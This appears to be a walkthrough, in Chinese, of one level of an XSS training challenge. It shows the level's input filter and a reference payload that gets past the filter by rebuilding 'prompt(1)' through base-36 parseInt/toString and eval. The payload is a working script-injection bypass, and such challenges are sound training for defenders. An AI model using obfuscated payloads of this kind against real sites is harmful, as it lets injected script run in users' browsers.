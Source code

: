    ![B_3](/img/xss/prompt_ml/levelB_003.png)



# Level C

## Code:

```
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}  
```

## 分析:

```
encodeURIComponent() 函数可把字符串作为 URI 组件进行编码。该方法不会对 ASCII 字母和数字进行编码，也不会对这些 ASCII 标点符号进行编码： - _ . ! ~ * ' ( ) 。

这里只能利用编码了
参考答案利用parseInt(字符串,基数)函数将字符串转换成整数,用指定基数表示。
parseInt("prompt",36); //1558153217
然后又用toString转化回来,用concat函数拼接编码的(1)
参考答案:
eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
 
```
